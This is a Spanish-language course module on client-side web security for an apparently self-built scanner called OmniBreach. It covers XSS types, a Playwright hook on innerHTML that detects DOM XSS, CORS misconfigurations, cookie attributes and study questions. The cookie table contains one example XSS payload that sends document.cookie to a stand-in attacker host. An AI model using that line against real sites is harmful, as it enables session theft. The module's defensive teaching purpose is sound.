

# Módulo 03: Vulnerabilidades del Lado del Cliente — XSS, DOM Taint Tracking, CORS y Cookies

## 1. El Contexto de Ejecución: La Política del Mismo Origen (SOP)

El navegador web es un sistema operativo en miniatura que ejecuta código de fuentes no confiables. La barrera fundamental que protege a los usuarios es la **Same-Origin Policy (SOP)**:
> Un script ejecutado en el origen `A` (protocolo + dominio + puerto) no puede leer datos ni acceder al DOM del origen `B`.

Todas las vulnerabilidades del lado del cliente son intentos de vulnerar o sortear los límites de la SOP.

---

## 2. Cross-Site Scripting (XSS)

El XSS ocurre cuando una aplicación web toma datos controlados por un atacante y los incluye en una página web sin el debido escape contextual o sanitización, provocando que el navegador de la víctima ejecute código JavaScript malicioso en el contexto de su sesión.

### 2.1 Los Tres Tipos de XSS
1. **Reflejado (Reflected):** El payload viaja en la petición HTTP actual (parámetro URL o cabecera) y el servidor lo devuelve inmediatamente en la respuesta HTML.
2. **Almacenado (Stored):** El payload se guarda persistentemente en una base de datos o almacenamiento del servidor (ej. un comentario en un foro o perfil de usuario) y se ejecuta cada vez que cualquier víctima visualiza el registro.
3. **Basado en DOM (DOM-Based):** El servidor es 100% inocente; la vulnerabilidad reside en el código JavaScript del cliente que lee una fuente de datos insegura (Source) y la pasa a una función de ejecución peligrosa (Sink).

---

### 2.2 Instrumentación Avanzada: Taint Tracking Dinámico en Playwright

Los escáneres estáticos tradicionales buscan patrones con expresiones regulares (`innerHTML = location.hash`), lo que produce enormes cantidades de falsos positivos en librerías minificadas como React o jQuery.

OmniBreach resuelve esto ejecutando un **navegador Chromium real con instrumentación previa a la carga de la página (Pre-execution Hooks)** mediante Playwright.

Ubicación en el código: [`scanner/dom_xss.py`](file:///c:/Users/villa/VulnScanner/scanner/dom_xss.py)



#### El Arnés de Inyección de JavaScript (Hooking de Sinks)
Antes de que la página ejecute su primer script, se reemplazan los métodos nativos del navegador por versiones instrumentadas que inspeccionan los argumentos:

```javascript
// Hooking del descriptor de propiedad innerHTML
const originalDesc = Object.getOwnPropertyDescriptor(Element.prototype, 'innerHTML');
Object.defineProperty(Element.prototype, 'innerHTML', {
    set: function(val) {
        if (typeof val === 'string' && val.includes(CANARY_PAYLOAD)) {
            window.__dom_taint_findings.push({
                sink: 'Element.innerHTML',
                value: val.substring(0, 150),
                stack: new Error().stack // Pila de llamadas real de JS
            });
        }
        return originalDesc.set.call(this, val);
    }
});
```

* **Ventaja competitiva:** No solo confirma que el DOM XSS es real (cero falsos positivos), sino que le entrega al equipo de desarrollo la **línea exacta de código y el archivo `.js`** donde ocurrió el flujo de datos inseguro.

---

## 3. Seguridad en CORS (Cross-Origin Resource Sharing)

CORS no es una política de seguridad que bloquea ataques; es un mecanismo para **relajar selectivamente la SOP** y permitir que dominios externos consuman APIs mediante peticiones AJAX.

### 3.1 Las Tres Malas Configuraciones Críticas

#### Caso A: Reflejo Dinámico del Origen con Credenciales (Crítico)
* **Petición del Atacante:** `Origin: https://sitio-malicioso.com`
* **Respuesta del Servidor Vulnerable:**
  ```http
  Access-Control-Allow-Origin: https://sitio-malicioso.com
  Access-Control-Allow-Credentials: true
  ```
* **Impacto:** Cualquier sitio web malicioso visitado por la víctima puede ejecutar peticiones autenticadas y leer sus datos privados (billeteras, mensajes, configuraciones).

#### Caso B: Confianza en el Origen `null` con Credenciales (Alto)
* **Petición del Atacante:** `Origin: null`
* **Respuesta del Servidor:**
  ```http
  Access-Control-Allow-Origin: null
  Access-Control-Allow-Credentials: true
  ```
* **Impacto:** Los atacantes pueden forzar el origen `null` cargando la víctima dentro de un `iframe` con el atributo `sandbox` o mediante redirecciones `data:`, permitiendo exfiltración de información sensible.

#### Caso C: Comodín `*` en Endpoints Dinámicos vs. Recursos Estáticos
* Si un endpoint dinámico (`/api/cuenta`) responde con `Access-Control-Allow-Origin: *`, se considera un riesgo bajo/informativo.
* **Regla de Precisión en OmniBreach ([`scanner/cors.py`](file:///c:/Users/villa/VulnScanner/scanner/cors.py)):**
  Archivos estáticos (`.css`, `.js`, `.png`, fuentes) con `*` **se ignoran intencionalmente**, ya que forman parte de la arquitectura estándar de distribución de contenidos en CDNs.

---

## 4. Auditoría de Cookies y Protección de Sesión

Las cookies son el mecanismo primario de persistencia de sesiones web. Cada atributo cumple un rol defensivo específico:

```
Set-Cookie: session_id=abc123xyz; Secure; HttpOnly; SameSite=Lax
```

| Atributo | Propósito Defensivo | Impacto si Falta |
| :--- | :--- | :--- |
| **`Secure`** | La cookie solo se transmite si la conexión es cifrada mediante HTTPS. | Un atacante en la misma red WiFi abierta puede interceptar la cookie en texto plano si la víctima visita una URL sobre HTTP. |
| **`HttpOnly`** | Impide que el código JavaScript del navegador acceda a `document.cookie`. | Si la aplicación sufre un ataque XSS, el atacante puede robar la sesión completa del usuario (`new Image().src = 'http://attacker/log?c=' + document.cookie`). |
| **`SameSite=Lax/Strict`** | Restringe el envío de la cookie en peticiones que se originan desde sitios web de terceros. | Mitiga de raíz los ataques de **CSRF (Cross-Site Request Forgery)**, evitando que un formulario en un sitio externo realice acciones en nombre del usuario. |

> **Principio de Precisión implementado:**
> Las cookies de interfaz de usuario (`theme`, `language`, analíticas `_ga`) no necesitan `HttpOnly` porque el frontend legítimamente necesita leerlas. OmniBreach discrimina cookies de autenticación de cookies de cliente para evitar falsas alarmas de riesgo Alto.

---

## 5. Preguntas Clave para Estudio y Guión de Video

1. **¿Por qué un ataque de DOM XSS puede ejecutarse con éxito incluso si el servidor implementa un WAF perfecto que bloquea etiquetas `<script>` en las peticiones HTTP?**
   * *Respuesta:* Porque la carga útil puede viajar en el fragmento de la URL (`#hash`), el cual nunca se envía en la petición HTTP al servidor, procesándose exclusivamente en el motor JavaScript local del navegador.
2. **¿Por qué la combinación `Access-Control-Allow-Origin: *` y `Access-Control-Allow-Credentials: true` es rechazada por los navegadores modernos?**
   * *Respuesta:* Los estándares de W3C prohíben explícitamente compartir credenciales con orígenes comodín sin restricciones para proteger la privacidad del usuario; si una aplicación intenta configurarlo, el navegador descarta la respuesta.
3. **¿Cuál es la diferencia entre `SameSite=Lax` y `SameSite=Strict`?**
   * *Respuesta:* `Strict` nunca envía la cookie en peticiones de origen cruzado (incluso si el usuario hace clic en un enlace legítimo desde Google). `Lax` permite el envío en navegaciones de nivel superior iniciadas por el usuario (método GET), manteniendo protección contra peticiones POST/AJAX no autorizadas.
